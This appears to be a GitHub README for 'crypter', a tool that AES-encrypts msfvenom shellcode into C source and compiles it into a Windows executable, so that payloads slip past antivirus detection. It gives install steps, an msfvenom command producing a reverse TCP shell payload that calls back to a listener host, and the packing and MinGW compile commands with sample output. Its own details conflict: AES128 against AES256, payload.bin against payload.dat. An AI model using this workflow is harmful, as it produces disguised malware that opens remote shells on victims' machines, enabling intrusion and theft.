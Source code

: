 # crypter
A shellcode crypto-packing tool for PoC (used with msfvenom/binary payloads)

This tool is for proof of concept only - please use responsibly.

Crypter is an auxiliary tool used for crypto packing msfvenom Windows payloads.
It uses AES128 (optimal for speed) to encrypt the payload and create C source from it from which you can compile (on linux or windows) into an executable.

You will need to install `MinGW` on Linux in order to compile `.exe` files:

```
$ apt-get update
$ apt-get install mingw-w64
```
________________________________

#Install

First, you will need to install the dependency/dependencies that `crypter` relies on (mainly OpenSSL):

```
$ apt-get install libssl-dev
```

Then, download this repository and install:

```
$ git clone https://github.com/ripmeep/crypter/ && cd crypter
$ gcc crypter.c -o crypter -lcrypto -I src/
```

#Usage

You will need to generate/already have a file that contains raw shellcode that you wish to execute in an exe file.
Metasploit is a good way of generating one for reverse shells/exploits. (https://github.com/rapid7/metasploit-framework/)

Generate a payload:

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[LISTENER IP] LPORT=[LISTENER PORT] -f raw -o payload.bin
```

Run crypter to crypto pack the shellcode into a C source binary:

```
$ ./crypter payload.bin shell.exe

Extracted contents of payload.dat
Generated random AES256 Cryto Pack key: 924C2038A4B0DEFDF8420A2A896688CE900DD26109759A4CAE0681A147A64FA5
Generated random initialization vector: 34A7B03E8F2CD3023ED2BF78ECC8AE846D84B30F96E97BC02189820276DEB229
Successfully encrypted payload - generating exe file

Generated Crypto C source
Writing source to shell.exe.c...
Done
Now run: x86_64-w64-mingw32-gcc shell.exe.c -o shell.exe -fno-stack-protector
Finished
```

It will then display the MinGW command you need to run to compile the source file.
`x86_64-w64-mingw32-gcc shell.exe.c -o shell.exe -fno-stack-protector -s` (my case).

